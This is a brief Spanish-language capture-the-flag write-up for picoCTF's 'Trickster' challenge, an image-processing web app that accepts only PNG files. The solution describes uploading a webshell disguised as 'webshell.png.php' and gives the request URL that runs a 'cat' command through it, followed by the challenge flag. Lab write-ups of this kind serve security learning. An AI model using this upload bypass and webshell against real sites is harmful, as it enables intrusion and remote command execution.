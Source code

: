 **Reto:** Trickster

**Descripción:**
Encontré una aplicación web que puede ayudar a procesar imágenes: imágenes de PNG solamente. Pruébalo [aquí](http://atlas.picoctf.net:50784/).
**Solución:**
generamos un codigo webshell.png,php y nos dio la dirección de donde estaba la bandera 

http://atlas.picoctf.net:58314/uploads/webshell.png.php?cmd=cat%20../GAZWIMLEGU2DQ.txt
==picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}==

**Notas adicionales:**

**Referencias:** 
https://www.youtube.com/watch?v=co8MZmviC1U